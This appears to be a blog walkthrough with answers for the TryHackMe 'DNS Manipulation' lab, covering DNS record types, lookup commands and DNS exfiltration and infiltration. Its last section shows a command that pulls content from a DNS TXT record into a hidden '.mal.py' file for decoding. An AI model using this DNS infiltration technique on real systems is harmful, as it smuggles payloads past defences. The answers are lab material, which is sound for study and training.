 ```yaml
---
layout: post
title: DNS Manipulation - TryHackMe Room
---
```


Room: [DNS Manipulation](https://tryhackme.com/room/dnsmanipulation)

# Task 4: What is DNS?
### If you were on Windows, what command could you use to query a txt record for 'youtube.com'? 

```bash
nslookup -type=TXT domaintosearch.com 
```

### If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

```bash
dig domaintosearch.com txt
```

### AAAA stores what type of IP Address along with the hostname?

```bash
IPv6
```

### Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

```bash
nay
```

### What DNS Record provides a domain name in reverse-lookup? (Research)

```bash
PTR
```


### What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)
- in your Linux terminal enter the following command replacing the IP of interest

```bash
host IP_ADDRESS
```
# Task 5 What is DNS Exfiltration? 
### What is the maximum length of a DNS name?
Check this [article](https://en.wikipedia.org/wiki/Domain_Name_System)

# Task 7 : Exfiltration Practice
- login with SSH provided 

# Task 10 : Infiltration Practice
- this is what the script is doing
- decode from base 58 and decode the output from base64

```bash
 nslookup -type=txt SUBDOMAIN |grep "Ye" |cut -d \" -f2 > .mal.py

```
